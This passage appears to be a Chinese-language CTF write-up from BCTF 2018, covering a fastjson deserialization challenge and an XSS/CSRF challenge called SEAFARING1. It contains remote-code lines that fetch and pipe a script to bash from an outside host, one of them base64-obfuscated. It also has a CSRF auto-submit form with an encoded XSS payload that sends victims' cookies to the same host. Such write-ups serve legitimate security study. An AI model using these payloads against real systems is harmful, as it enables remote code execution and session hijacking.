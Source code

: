 ```
            break
```

RESTFULAPI接口，结合控制台提示restful api provided by fastjson.，是fastjson的漏洞，网上找exp打就行了，不过Runtime.getRuntime().exec()有的符号不能用（例如|和>）

```
curl zzm.cat:8080/1.txt|bash
```

1.txt:

```
bash -c {echo,Y3VybCB6em0uY2F0OjgwODAvMS50eHR8YmFzaA==}|{base64,-d}|{bash,-i}
```

exp:

![](/assets/bctf/20181129182028-6495c7d6-f3c0-1.png)

编译成字节码然后base64:

![](/assets/bctf/20181129182132-8ada3f62-f3c0-1.png)

payload:

![](/assets/bctf/20181129182202-9ca207de-f3c0-1.png)

相同类型题目: 护网杯easy_web:

![](/assets/bctf/20181014171439-941dc498-cf91-1.png)

## SEAFARING1

xss+csrf+sql注入

https://xz.aliyun.com/t/3472#toc-2

robots.txt发现/admin/handle_message.php

post csrf token:

`token=<img src=1 onerror=alert(1)>`

payload:

```
<form method="post" action="http://seafaring.xctf.org.cn:9999/admin/handle_message.php">
<input name="token" value="<svg onload=document.write(atob('PHNjcmlwdD4KbG9jYXRpb249Imh0dHA6Ly96em0uY2F0OjgwODAvP2M9Iitlc2NhcGUoZG9jdW1lbnQuY29va2llKTsKPC9zY3JpcHQ+'))>">
</form>
<script>
document.forms[0].submit();
</script>
```

```
echo PHNjcmlwdD4KbG9jYXRpb249Imh0dHA6Ly96em0uY2F0OjgwODAvP2M9Iitlc2NhcGUoZG9jdW1lbnQuY29va2llKTsKPC9zY3JpcHQ+ | base64 -d
=>
<script>
location="http://zzm.cat:8080/?c="+escape(document.cookie);
</script>
```
